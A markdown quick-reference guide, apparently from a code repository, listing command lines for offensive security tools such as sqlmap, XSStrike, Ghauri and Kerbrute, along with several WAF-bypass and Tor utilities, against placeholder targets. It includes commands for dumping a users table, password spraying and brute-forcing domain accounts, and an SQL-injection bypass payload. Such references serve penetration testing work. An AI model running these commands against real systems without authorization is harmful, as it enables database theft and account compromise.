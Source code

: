 # Security Tools Commands Guide

This document is a collection of commands for various security tools including SQLMC, Xsstrike, Sqlmap, Ghauri, Kerbrute, Webcopilot, Wafpass, and TorNet. Each section includes essential commands and customizable options to enhance your security testing and vulnerability assessment tasks.

---

## SQLMC
- **Basic Command**: `sqlmc -u http://example.com -d 2 -o Output_file`

---

## Xsstrike
- **Basic Usage**: `python3 xsstrike.py -u http://example.com`
- **Scan URL List**: `python3 xsstrike.py --file urls.txt`
- **Crawl Mode**: `python3 xsstrike.py --crawl -u http://example.com/`
- **Use Proxy**: `python3 xsstrike.py -u "http://example.com/" --proxy http://127.0.0.1:8080`
- **Custom User-Agent**: `python3 xsstrike.py -u "http://example.com/" --user-agent "Mozilla/5.0"`
- **Specify Cookies**: `python3 xsstrike.py -u "http://example.com/" --cookie "sessionid=abc123; user=admin"`
- **HTTP Headers**: `python3 xsstrike.py -u "http://example.com/" --headers "Authorization: Bearer token123"`
- **Fuzzing Mode**: `python3 xsstrike.py -u "http://example.com/search.php?q=test" --fuzzer`
- **Blind XSS**: `python3 xsstrike.py -u "http://example.com/search.php?q=test" --payload "<script>...</script>"`

---

## Sqlmap
- **Basic Command**: `sqlmap -u http://example.com/page.php?id=1`
- **Request Method (GET/POST)**: `sqlmap -u "http://example.com/page.php?id=1" --method=POST --data="username=admin&password=admin"`
- **HTTP Headers**: `sqlmap -u "http://example.com/page.php?id=1" --headers="User-Agent: Mozilla/5.0"`
- **Database Enumeration**: `sqlmap -u "http://example.com/page.php?id=1" --dbs`
- **Enumerate Tables**: `sqlmap -u "http://example.com/page.php?id=1" -D targetdb --tables`
- **Dump Table Data**: `sqlmap -u "http://example.com/page.php?id=1" -D targetdb -T users --dump`
- **Injection Techniques**: `sqlmap -u "http://example.com/page.php?id=1" --technique=BEUST`
- **Tamper Scripts**: `sqlmap -u "http://example.com/page.php?id=1" --tamper=space2comment`

---

## Ghauri
- **Basic Usage**: `python3 ghauri.py -u http://example.com/page.php?id=1`
- **POST Request**: `python3 ghauri.py -u "http://example.com/page.php" --data="id=1"`
- **User-Agent**: `python3 ghauri.py -u "http://example.com/page.php?id=1" --user-agent="Mozilla/5.0"`
- **Cookies**: `python3 ghauri.py -u "http://example.com/page.php?id=1" --cookie="PHPSESSID=abcdef123456"`
- **Blind SQL Injection Detection**: `python3 ghauri.py -u "http://example.com/page.php?id=1" --technique=B`
- **Output to File**: `python3 ghauri.py -u "http://example.com/page.php?id=1" --output-file=results.txt`

---

## Kerbrute
- **Username Enumeration**: `./kerbrute_linux_amd64 userenum -d example.com --dc 192.168.1.10 usernames.txt`
- **Password Spray Attack**: `./kerbrute_linux_amd64 passwordspray -d example.com --dc 192.168.1.10 usernames.txt -p Password123`
- **Brute Force**: `./kerbrute_linux_amd64 bruteforce -d example.com --dc 192.168.1.10 usernames.txt passwords.txt`

---

## Webcopilot
- **Target Specification**: `webcopilot -u http://example.com`
- **Crawl Website**: `webcopilot -u "http://example.com" --crawl`
- **SQL Injection Scan**: `webcopilot -u "http://example.com" --sqlscan`
- **XSS Scan**: `webcopilot -u "http://example.com" --xss`
- **Directory Brute-forcing**: `webcopilot -u "http://example.com" --dirbrute`
- **Save Output**: `webcopilot -u "http://example.com" --output report.txt`

---

## Wafpass
- **Basic Payload Testing**: `wafpass -u "http://example.com" --payload "1' OR '1'='1"`
- **Encoding Techniques**: `wafpass -u "http://example.com" --encode base64`
- **Custom Headers**: `wafpass -u "http://example.com" --headers "X-Forwarded-For: 127.0.0.1"`

---

## TorNet
- **Basic Usage**: `sudo tornet --interval 5 --count 0`

---

This guide aims to provide a quick reference for each tool's basic and advanced commands. Each section contains different flags and parameters to tailor your security testing efforts as per your requirements.
